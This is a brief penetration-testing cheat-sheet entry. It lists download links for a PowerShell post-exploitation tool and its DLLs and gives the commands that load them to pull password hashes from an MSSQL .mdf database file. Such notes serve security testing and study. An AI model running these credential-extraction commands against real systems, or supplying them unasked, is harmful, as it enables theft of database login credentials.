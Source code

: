### Source
https://raw.githubusercontent.com/xpn/Powershell-PostExploitation/master/Invoke-MDFHashes/Get-MDFHashes.ps1  
https://github.com/xpn/Powershell-PostExploitation/raw/master/Invoke-MDFHashes/OrcaMDF.Framework.dll  
https://github.com/xpn/Powershell-PostExploitation/raw/master/Invoke-MDFHashes/OrcaMDF.RawCore.dll  

### Get hash from mdf mssql database file
```
Import-Module .\OrcaMDF.RawCore.dll
Import-Module .\OrcaMDF.Framework.dll
Import-Module .\Get-MDFHashes.ps1
Get-MDFHashes -mdf "<fullPathToFile>.mdf"
```

